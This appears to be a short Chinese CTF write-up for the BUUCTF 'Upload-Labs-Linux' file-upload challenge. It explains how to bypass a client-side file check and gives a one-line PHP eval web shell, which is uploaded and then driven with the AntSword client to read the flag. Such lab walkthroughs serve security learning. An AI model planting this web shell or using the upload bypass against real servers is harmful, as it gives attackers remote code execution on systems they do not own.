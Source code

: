 ```yaml
---
title: Upload-Labs-Linux
date: 2022-10-10 08:52:48
tags:
- ctf
- buuctf
- antsword
---
```

# 题目预览：
![](/img/Upload-Labs-Linux/20221010085420.png)  
# 解决方法
1. 开控制台
2. 关闭javascript
   > 设置-偏好设置-调试程序
   删除`onsubmit="return.checkFile()"`
3. 新建一个文件里面写入`<?php @eval($_POST['123']);?>`
4. 后缀名改为php上传到网站，显示出图片后右键复制链接。
5. 打开antsword，add一个url地址为图片链接，密码为123，加密base64.
6. 点击链接就能发现根目录有个flag文件了。